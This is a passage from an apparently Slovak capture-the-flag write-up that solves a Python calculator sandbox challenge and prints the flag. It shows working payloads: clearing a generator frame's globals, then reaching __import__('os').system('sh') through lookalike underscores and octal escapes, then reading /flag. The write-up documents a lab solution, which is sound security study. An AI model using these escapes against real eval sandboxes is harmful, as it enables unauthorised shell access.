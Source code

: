 ```
ass 'UnicodeDecodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'ExceptionGroup': <class 'ExceptionGroup'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2023 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'gen': <generator object <genexpr> at 0x7f3bf7608dc0>}
```

A tu vidím, že sa to podarilo... Pristúpil som k samotnému objektu f_globals, pomocou clear() som ho vyčistil, čím som stratil aj samotné gen, ale vytvoril som si nové a vidím, že už nemám definované `__builtins__` so safe_globals, ale defaultné... eval máme teda bez obmedzení na matematické funkcie, ale stále platí obmedzenie na podtržníky pre dunder metódy, no nie ked ich použijeme escapnuté v stringu vnútri hranatých zátvoriek. Spawnem si shell pomocou `__import__["os"].system("sh")`

```
Welcome to the Calculator v2!
With improved security so you can have access to all the fun math stuff and the bad guys cannot do the bad stuff! Enjoy :D
>>> (i for i in[]).gi﹏frame.f﹏globals.clear()
None
>>> (i for i in[]).gi﹏frame.f﹏globals["\137\137builtins\137\137"]["\137\137import\137\137"]("os").system("sh")
cat /flag*
SK-CERT{wh0_w0uld_h4v3_th0ght_y0u_c4n_3sc4pe_w1th0ut__}
```

## Vlajka

```
SK-CERT{wh0_w0uld_h4v3_th0ght_y0u_c4n_3sc4pe_w1th0ut__}
```
